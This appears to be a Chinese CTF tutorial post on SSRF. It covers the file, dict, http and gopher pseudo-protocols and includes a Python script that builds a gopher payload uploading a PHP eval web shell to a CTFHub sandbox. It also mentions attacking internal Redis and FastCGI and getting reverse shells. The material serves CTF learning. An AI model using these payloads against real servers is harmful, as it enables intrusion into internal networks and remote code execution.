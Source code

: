 ```yaml
---
layout: post
title: SSRF
categories: [web,ssrf]
---
```


# SSRF漏洞
以WEB服务器作为跳板进行攻击内网

## 伪协议读取文件

### file:// 协议
作用：
用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响。  
>?url=file:///var/www/html/flag.php

### http/s协议
作用：
探测内网主机存活

### dict协议
作用：
泄露安装软件版本信息，查看端口，操作内网redis服务等

### Gopher协议
作用：
Gopher协议可以说是SSRF中的万金油。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。可用于反弹shell  
可使用gopherus生成payload，对内网应用FastCGI、Redis等中间件进行攻击  

```
gopher伪协议（curl支持gopher），发送GET或POST请求(需要配合http协议二次url编码上传)；本题要用gopher发送POST请求，gopher的格式是gopher://<host>:<port>/<gopher-path>_后接tcp流，本题默认伪gopher://127.0.0.1:80/_后接post请求
```

使用gopher协议发送post请求
```py
import urllib.parse
payload =\
"""POST /flag.php HTTP/1.1
Host: challenge-7dbc7396ca84c6e3.sandbox.ctfhub.com:10800
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://challenge-7dbc7396ca84c6e3.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php
Content-Type: multipart/form-data; boundary=---------------------------130425879537888649393146439566
Content-Length: 384
Origin: http://challenge-7dbc7396ca84c6e3.sandbox.ctfhub.com:10800
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------130425879537888649393146439566
Content-Disposition: form-data; name="file"; filename="hph.php"
Content-Type: application/octet-stream

<?php @eval($_POST['cmd']);?>
-----------------------------130425879537888649393146439566
Content-Disposition: form-data; name="file"

提交查询
-----------------------------130425879537888649393146439566--

"""  
 
#注意payload的最后一行是回车（空行），表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A', '%0D%0A')
new2 = urllib.parse.quote(new)
result = 'gopher://127.0.0.1:80/_'+new2
print(result)       # 这里因为是GET请求所以要进行两次url编码
```